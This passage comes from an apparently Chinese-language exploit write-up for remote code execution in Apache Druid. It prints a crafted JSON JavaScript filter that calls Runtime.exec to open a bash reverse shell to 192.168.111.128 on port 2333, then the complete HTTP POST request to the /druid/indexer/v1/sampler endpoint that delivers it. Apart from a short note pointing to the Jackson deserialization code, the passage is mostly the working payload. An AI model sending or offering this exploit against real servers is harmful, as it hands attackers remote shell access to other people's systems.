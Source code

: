 我们修改之前发过的`post`构造一个filiter，就可以完成RCE了,

```
"filter":`{`"type": "javascript",
                                        "function": "function(value)`{`return java.lang.Runtime.getRuntime().exec('/bin/bash -c $@|bash 0 echo bash -i &gt;&amp;/dev/tcp/192.168.111.128/2333 0&gt;&amp;1')`}`",
                                        "dimension": "added",
                                        "": `{`
                                                "enabled": "true"
                                        `}`
                                `}`
```

这里直接写java反弹shell语句

完整报文

```
POST /druid/indexer/v1/sampler?for=filter HTTP/1.1
Host: 192.168.111.3:8888
Content-Length: 992
Accept: application/json, text/plain, */*
DNT: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.111.3:8888
Referer: http://192.168.111.3:8888/unified-console.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

`{`"type":"index","spec":`{`"type":"index","ioConfig":`{`"type":"index","inputSource":`{`"type":"http","uris":["https://druid.apache.org/data/example-manifests.tsv"]`}`,"inputFormat":`{`"type":"tsv","findColumnsFromHeader":true`}``}`,"dataSchema":`{`"dataSource":"sample","timestampSpec":`{`"column":"timestamp","missingValue":"2010-01-01T00:00:00Z"`}`,"dimensionsSpec":`{``}`,"transformSpec":`{`"transforms":[],"filter":`{`"type": "javascript",
                                        "function": "function(value)`{`return java.lang.Runtime.getRuntime().exec('/bin/bash -c $@|bash 0 echo bash -i &gt;&amp;/dev/tcp/192.168.111.128/2333 0&gt;&amp;1')`}`",
                                        "dimension": "added",
                                        "": `{`
                                                "enabled": "true"
                                        `}`
                                `}`
                        `}`
  `}`,"type":"index","tuningConfig":`{`"type":"index"`}``}`,"samplerConfig":`{`"numRows":50,"timeoutMs":10000`}``}`

```

具体`json`转换过程可以`com.fasterxml.jackson.databind.deser.BeanDeserializer`的`_deserializeUsingPropertyBased`定位到
